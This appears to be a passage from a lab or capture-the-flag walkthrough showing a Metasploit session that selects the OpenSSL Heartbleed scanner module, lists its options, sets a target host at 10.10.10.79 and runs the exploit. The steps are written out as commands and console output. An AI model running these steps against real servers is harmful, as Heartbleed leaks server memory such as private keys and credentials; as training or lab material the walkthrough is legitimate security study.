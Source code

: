 ## EXPLOIT

Using metasploit [resource](https://www.ehacking.net/2020/02/how-to-exploit-heartbleed-using-metasploit-in-kali-linux.html)

```
msf6 > search heartbleed

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssl/openssl_heartbleed                                                

msf6 > use 1
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > show options

Module options (auxiliary/scanner/ssl/openssl_heartbleed):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   DUMPFILTER                         no        Pattern to filter leaked memory
                                                 before storing
   LEAK_COUNT        1                yes       Number of times to leak memory
                                                per SCAN or DUMP invocation
   MAX_KEYTRIES      50               yes       Max tries to dump key
   RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a
                                                 server response
   RHOSTS                             yes       The target host(s), range CIDR
                                                identifier, or hosts file with
                                                syntax 'file:<path>'
   RPORT             443              yes       The target port (TCP)
   STATUS_EVERY      5                yes       How many retries until key dump
                                                 status
   THREADS           1                yes       The number of concurrent thread
                                                s (max one per host)
   TLS_CALLBACK      None             yes       Protocol to use, "None" to use
                                                raw TLS sockets (Accepted: None
                                                , SMTP, IMAP, JABBER, POP3, FTP
                                                , POSTGRES)
   TLS_VERSION       1.0              yes       TLS/SSL version to use (Accepte
                                                d: SSLv3, 1.0, 1.1, 1.2)


Auxiliary action:

   Name  Description
   ----  -----------
   SCAN  Check hosts for vulnerability


msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOST 10.10.10.79
RHOST => 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > exploit
```